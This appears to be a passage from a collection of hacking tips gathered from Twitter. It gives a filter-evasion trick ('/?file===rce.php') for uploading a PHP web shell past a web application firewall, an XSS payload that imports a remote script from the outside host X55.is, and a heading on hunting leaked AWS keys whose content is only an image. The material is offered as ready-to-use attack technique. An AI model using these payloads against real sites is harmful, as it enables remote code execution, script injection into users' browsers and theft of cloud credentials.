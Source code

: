 ## WAF bypass (@HackENews)

WAF bypass during exploitation of file upload Feu 
/?file=rce.php    <-- Blocked
/?file=rce.php.jpg <-- Blocked
/?file=rce.php5 <-- Blocked
/?file===rce.php  <-- Bypassed 200 OK

## XSS payload (@XssPayloads)

A good one by @rodoassis, leveraging the Sec-Fetch-Dest 'security' header...
```html
<Img Src=//X55.is OnLoad=import(src)>
```

## Find leaking AWS keys (@h4x0r_dz)

In this tweet, I will explain to you How to find Leaking AWS Keys. 
![twitter_tips_02](images/twitter_tips_02.png)
